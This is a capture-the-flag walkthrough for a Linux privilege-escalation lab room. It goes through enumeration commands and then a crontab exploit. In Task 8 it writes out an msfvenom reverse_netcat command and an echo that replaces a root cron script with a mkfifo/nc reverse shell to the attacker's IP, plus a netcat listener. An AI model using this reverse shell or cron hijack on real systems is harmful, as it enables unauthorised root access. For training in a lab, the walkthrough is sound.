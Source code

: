 # Common Linux Privesc Writeup

## [Task 1 - 3]

Follow The Readings Provided

## [Task 4] Enumeration

### 1 SSH into machine with the provided credentials 

username = user3
password = password

- ssh user3@10.10.x.x
![1](https://user-images.githubusercontent.com/69840849/90487228-85318c80-e17d-11ea-97a6-4fae52b8f968.png)

### 2 What is the target's hostname?

- hostname
![1](https://user-images.githubusercontent.com/69840849/90487310-a4c8b500-e17d-11ea-8c13-e124db0080e5.png)
 
### 3 Look at the output of /etc/passwd how many "user[x]" are there on the system?

- cat /etc/passwd
![1](https://user-images.githubusercontent.com/69840849/90487951-7f887680-e17e-11ea-9a89-695bbae5f50e.png)

### 4 How many available shells are there on the system?

- cat /etc/shells
![1](https://user-images.githubusercontent.com/69840849/90487873-654e9880-e17e-11ea-930b-d8a76d45b608.png)

### 5 What is the name of the bash script that is set to run every 5 minutes by cron? 

[ ! ] You should be able to find the name of the .sh file
- cat /etc/crontab
![1](https://user-images.githubusercontent.com/69840849/90487765-405a2580-e17e-11ea-917b-2c482e84784c.png)

### 6 What critical file has had its permissions changed to allow some users to write to it?

- ls -la /etc/passwd
![1](https://user-images.githubusercontent.com/69840849/90488017-9929be00-e17e-11ea-8e7b-2a970579333e.png)

### 7 Enumeration Completed

## [Task 5] Abusing SUID/GUID Files

## [Task 6] Exploiting Writeable /etc/passwd 

## [Task 7] Escaping Vi Editor 

## [Task 8] Exploiting Crontab 

### 1 Switch user to User4 with the provided credentials 

username = user4
password = password

- su user4
![1](https://user-images.githubusercontent.com/69840849/90488480-53b9c080-e17f-11ea-8e7b-a8fcd383bbd4.png)

### 2 Msfvenom
-

### 3 What is the flag to specify a payload in msfvenom?

[ ! ] You can find the answer by using 
- msfvenom -h

### 4 Create a payload using: 

[ ! ] Reminder, LOCALIP depends on your own machine, I will be using 10.10.0.0 as an example! 
[ ! ] In this situation, we can use port 8888. We can use another port number such as 1234 as long as the netcat listener 
is also set to 1234

- msfvenom -p cmd/unix/reverse_netcat lhost=LOCALIP lport=8888 R
![1](https://user-images.githubusercontent.com/69840849/90489384-8f08bf00-e180-11ea-9dcc-e3927b6bf169.png)

### 5 What directory is the "autoscript.sh" under?

- cat /etc/crontab
![1](https://user-images.githubusercontent.com/69840849/90487765-405a2580-e17e-11ea-917b-2c482e84784c.png)

### 6 Lets replace the contents of the file with our payload using: "echo [MSFVENOM OUTPUT] > autoscript.sh"

- echo "mkfifo /tmp/qjqlxog; nc 10.10.0.0 8888 0</tmp/qjqlxog | /bin/sh >/tmp/qjqlxog 2>&1; rm /tmp/qjqlxog" > autoscript.sh


### 7 After copying the code into autoscript.sh file we wait for cron to execute the file, and start our netcat listener using:
- nc -lnvp 8888
![1](https://user-images.githubusercontent.com/69840849/90490101-895fa900-e181-11ea-8166-ca5a4a637815.png)


### 8 After about 5 minutes, you should have a shell as root land in your netcat listening session! Congratulations! 

[ ! ] You may use the follow to check if it worked
- whoami
![1](https://user-images.githubusercontent.com/69840849/90490473-01c66a00-e182-11ea-88c6-f84af16895ba.png)


## [Task 9] Exploiting PATH Variable 

## [Task 10] Expanding Your Knowledge 

Follow The Readings Provided
